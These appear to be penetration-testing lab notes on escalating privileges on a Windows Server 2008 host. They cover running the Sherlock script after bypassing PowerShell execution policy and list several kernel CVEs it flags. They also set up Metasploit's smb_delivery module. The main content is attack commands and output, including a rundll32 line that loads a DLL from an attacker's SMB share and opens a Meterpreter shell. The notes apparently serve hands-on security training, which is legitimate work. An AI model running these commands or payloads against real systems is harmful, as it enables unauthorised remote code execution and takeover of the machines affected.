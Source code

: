 ## 🔧 Sherlock Vulnerability Assessment

### Sherlock Script Usage
```powershell
# Set execution policy:
Set-ExecutionPolicy bypass -Scope process

# Import and run Sherlock:
cd C:\Tools\
Import-Module .\Sherlock.ps1
Find-AllVulns
```

### Common Server 2008 Vulnerabilities
```cmd
# Typical Sherlock findings:
MS10-092 (CVE-2010-3338)  # Task Scheduler XML - Appears Vulnerable
MS15-051 (CVE-2015-1701)  # ClientCopyImage Win32k - Appears Vulnerable  
MS16-032 (CVE-2016-0099)  # Secondary Logon Handle - Appears Vulnerable

# 64-bit limitations:
MS10-015 (KiTrap0D)       # Not supported on 64-bit systems
MS13-053 (Win32k Pool)    # Not supported on 64-bit systems
MS16-016 (WebDAV)         # Not supported on 64-bit systems
```

## 🚀 Metasploit Privilege Escalation

### SMB Delivery Module Setup
```bash
# Start Metasploit:
sudo msfconsole -q
use exploit/windows/smb/smb_delivery

# Configure options:
set LHOST <attacker_ip>
set SRVHOST <attacker_ip>
set target 0                    # DLL target
exploit

# Result: Rundll32 command for target execution
rundll32.exe \\<attacker_ip>\<share>\test.dll,0
```

### Initial Shell Acquisition
```cmd
# Execute on target (Command Prompt):
rundll32.exe \\10.10.14.3\lEUZam\test.dll,0

# Result: Meterpreter session as current user
[*] Meterpreter session 1 opened (10.10.14.3:4444 -> 10.129.43.15:49609)
```
